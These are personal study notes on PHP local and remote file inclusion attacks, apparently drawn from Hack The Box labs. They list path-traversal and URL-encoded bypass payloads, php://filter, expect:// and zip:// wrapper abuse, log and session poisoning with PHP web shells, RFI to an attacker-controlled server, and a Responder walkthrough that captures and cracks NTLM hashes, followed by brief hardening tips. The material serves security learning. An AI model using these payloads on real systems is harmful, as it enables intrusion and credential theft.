 LFI and RFI attack range from sensitive information disclosure and Cross-site Scripting to Remote Code Execution
LFI we can  view or access the Local files on the server
in LFI we can access files on system like 
Example - http://example.com/?file=filename.php
or in worst case scenario upload a malicious   code to the server 	http://example.com/?file=../../uploads/evil.php
but even if we can upload we still don't know if it will be uploaded on same server that has the LFI exploit 

# LFI
more examples :
http://example.com/?file=../../../../etc/passwd
scripts can employ search and replace techniques to avoid path traversals. For example:

Code: php
$language = str_replace('../', '', $_GET['language']);
....//....//....//....//....//....//....//....//etc/passwd

In this scenario, input such as ../../../../../etc/passwd will result in the final string to be lang_../../../../../etc/passwd, which is invalid.
../../../../../etc/passwd
Bypass with URL Encoding
On PHP versions 5.3.4 and earlier, string-based detection could be bypassed by URL encoding the payload. The characters ../ can be URL encoded into %2e%2e%2f, which will bypass the filter.

In the last example ....// can be URL encoded into %2e%2e%2e%2e%2f%2f.

The payload %2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2fetc%2fpasswd 
# wrappers

https://www.php.net/manual/en/wrappers.php.php

php://filter/read=/resource=/etc/passwd 
The following filters will convert the contents of /etc/passwd to base64 and ROT13, respectively.

  Source Code Disclosure via PHP Wrappers
php://filter/read=convert.base64-encode/resource=/etc/passwd
php://filter/read=string.rot13/resource=/etc/passwd

# log poisoning 
default apache log file path
/var/log/apache2/access.log
in old apache servers and nginx servers logs are readable by low priv users such as www 
and the logs contain everything about the request and their User-Agent  we can use the User-Agent string to add our #RCE  <?php system($_GET['super']); ?> this gets executed by the server and we can run our code 
![[Pasted image 20210930225753.png]]
similar files to do that 
/var/log/nginx/access.log,
/var/log/sshd.log, 
/var/log/mail, 
and /var/log/vsftpd.log.
/proc/self/environ file can be included, which can be poisoned through the User-Agent string.
# RCE through PHP Session Files
default path /var/lib/php/sessions/sess_SESSION
C:\Windows/Temp
we can try and poison the session file by adding stuff after the ?example=CODE
We can see that the session file contains language preference and the selected page. Let's try poisoning the value of page by sending something through the language parameter. First, request the below URL:

http://134.209.184.216:32415/index.php?language=session_poisoning
This should "poison" the session file and add session_poisoning to it. Let's include the session file once again to look at the contents.

http://134.209.184.216:32415/index.php?language=/var/lib/php/sessions/sess_nhhv8i0o6ua4g88bkdl9u1fdsd

This time the session file contains session_poisoning instead of es.php, which confirms our ability to poison the session file. Next, let's write a PHP web shell to it using the following URL:

http://134.209.184.216:32415/index.php?language=
<?php system($_GET['cmd']); ?>
We can now include the session file and use the cmd parameter to execute operating system commands.

issue with this that we can only run a command only once 

# Expect Wrapper
The expect wrapper in PHP helps in interaction with process streams. This extension is disabled by default but can prove very useful if enabled. For example, the following URL will return the output of the id command.

http://blog.inlanefreight.com/index.php?language=expect://id

# Zip Wrapper
The zip wrapper can prove useful in combination with file uploads. If the website allows uploading arbitrary files, an attacker can upload a malicious zip file and include PHP code. 

 The files in the zip archive can be referenced using the # symbol, which should be URL-encoded in the request
 http://134.209.184.216:30489/index.php?language=zip://malicious.zip%23exec.php&cmd=id
 
 
 # RFI 
 RFI accrues when the allow_url_fopen setting (enabled by default) and allow_url_include setting have to be turned on
 then we can start a SMB or FTP or HTTP server on our machine and upload a shell code and execute commands by making the server connecting to us and get the shell 
 ![[Pasted image 20211001164936.png]]
 ![[Pasted image 20211001164956.png]]
 When the application is running on Windows, the restrictions applied by allow_url_include can be bypassed by using the SMB protocol.
 ![[Pasted image 20211001165028.png]]
 example :
 =http://OURIP/FILE
 =ftp://
 
 # phpinfo lfi
 https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion
 https://insomniasec.com/cdn-assets/LFI_With_PHPInfo_Assistance.pdf
 ![[Pasted image 20211101190518.png]]

## Also in windows
If "allow_url_include" wrapper is set to "Off" by default, indicating that PHP does not load remote HTTP or FTP URLs to prevent remote file inclusion attacks
however php doesn't prevent smb connection so what the attacker can do is host a smb server with [[PNPT/AD/Post-Compromise Enum-attacks/Tools]] and because how windows works with smb 
NTLM is a collection of authentication protocols created by Microsoft
The NTLM authentication process is done in the following way :
1. The client sends the user name and domain name to the server.
2. The server generates a random character string, referred to as the challenge.
3. The client encrypts the challenge with the NTLM hash of the user password and sends it back to the server.
4. The server retrieves the user password (or equivilent)
5. The server uses the hash value retrieved from the security account database to encrypt the challenge string. The value is then compared to the value received from the client. If the values match, the client is authenticated.
so what the attacker can do is host smb server through responder and capture the NTLM hash and crack it 
**Example**
Hackthebox starting point **Responder** machine 

First we host our server with responder
```
sudo responder -I tun0 -dwv 

http://unika.htb/index.php?page=//10.10.16.42/somefile

echo "HASH" > hash

john hash --wordlist=/usr/share/wordlists/rockyou.txt
```
![[Pasted image 20221117223325.png]]
then we access our machine with the RFI we found 
![[Pasted image 20221117223409.png]]

 ![[Pasted image 20221117223448.png]]
 and we get the hash next we save the hash to a file 
 and crack it with john
 ![[Pasted image 20221117223509.png]]
 
# defending side 
 -  if the system() function is blocked, a log will be created about the blocked functionality being used when an attacker uses it.
 -  web applications should never display error messages to the website edit the php.ini file and verify: display_errors = Off is set
 -  To block system() in PHP, append the functions you want to block to the "disabled_functions" lines of PHP. A list of functions recommended blocking is: system, passthru, shell_exec, popen, proc_open, curl_exec, curl_multi_exec, parse_ini_file, show_source; allow_url_fopen and allow_url_include to Off.
 -  using a docker preventing them from accessing non-web related files.  
 -  if docker isnt an option  adding open_basedir = /var/www in the php.ini file
 -  using WAF Web Application Firewall 




